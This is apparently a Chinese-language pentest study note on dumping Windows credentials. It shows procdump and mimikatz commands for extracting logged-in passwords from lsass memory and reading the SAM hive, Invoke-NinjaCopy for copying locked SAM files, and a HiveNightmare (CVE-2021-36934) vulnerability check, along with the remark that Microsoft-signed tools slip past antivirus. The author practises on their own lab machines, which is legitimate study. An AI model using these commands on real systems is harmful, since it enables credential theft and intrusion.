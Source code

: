     ![image-20221013215946443](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
2. #### 离线读取lsass内存文件
    
    ```bash
    procdump.exe -accepteula -ma lsass.exe lsass.dmp #将lsass内存导出到lsass.dmp文件中mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full" exit #导入lsass.dmp内存文件并导出已登录用户凭据
    ```
    
    1. 将procdump上传到靶机中以管理员身份执行命令导出内lsass进程内存到lsass.dmp文件
        
    2. 然后将lsass.dmp文件下载到本地, 在mimikatz中导入lsass.dmp内存文件, 然后导出用户凭据
        
    
    procdump并不会被杀软拦截,因为是微软的软件,有微软的签名证书,可以到微软官方网站下载: [procdump下载地址](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)
    
    不过有点尴尬, 因为一般来说就是使用管理员权限执行就可以导出lsass内存的, 但是这里执行的时候就失败了显示`拒绝访问`
    
    ![image-20221013233813260](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
    除了procdump之外之外lsass的进程内存转储还可以通过其他工具完成, 如`OutMinidump.ps1`,`SharpDump`或者手动加载系统自带的`comsvcs.dll`
    
3. #### 在线读取本地SAM文件
    
    ```bash
    mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit# privilege::debug,用于提升至DebugPrivilege权限# token::elevate,提升至system权限# lsadump::sam,用于读取SAM文件
    ```
    
    这里有点呆, 直接执行的话会返回`拒绝访问`, 但是只要我们进入mimikatz的交互模式逐句执行就可以正常读取导出SAM文件
    
    ![image-20221014000538887](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
    ![image-20221014000804975](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
4. #### 离线读取本地SAM文件
    
    和上面的lsass离线读取一样, 这里是先将SAM文件导出到一个文件, 然后将文件下载到本地, 在本地使用mimikatz加载并读取SAM中的用户凭证信息
    
    > 为了提高SAM文件的安全性以防止离线破解, Windows会对SAM文件使用秘钥进行加密, 这个秘钥存储在SYSTEM文件中, 与SAM位于同一个目录下.
    > 
    > 在系统运行时,SAM和SYSTEM这两个文件是被锁定的, 所以需要借助一些工具来实现, 有下面几个方式参考:
    > 
    > 1. 使用`PowerSplit`项目中提供的[`Invoke-NinjaCopy.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)脚本
    >     
    >     ```bash
    >     Invoke-NinjaCopy -Path 'C:\Windows\System32\config\SAM' -LocalDestination 'C:\Users\h0cksr\Desktop\SAM'
    >     ```
    >     
    >     该说不说, 又翻车了, 直接以管理员身份打开powershell导入Invoke-NinjaCopy.ps1模块执行命令, 结果直接显示被防毒软件ban了(当前为Win10教育版)
    >     
    >     ![image-20221014010718979](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    >     
    > 2. 通过HiveNightmare漏洞(CVE-2021-36934), 直接从系统卷影副本中访问和转储SAM,SYSTEM文件
    >     
    >     - 系统卷影副本,需要创建有系统还原点, 其影响范围为Windwos10 Version 1809以来发布的全部版本, 包括Win11在内
    >     
    >     1. ```bash
    >         icacls C:\Windows\System32\config\SAM    #在一般用户权限下执行即可, 若是输出"BUILTIN\Users:(I)(RX)"则表示系统易受攻击
    >         ```
    >         
    >         因为虚拟机和我的物理机都没有创建过系统还原点所以并不存在该漏洞, 下面的利用在这里记一下, 就演示不了了
    >         
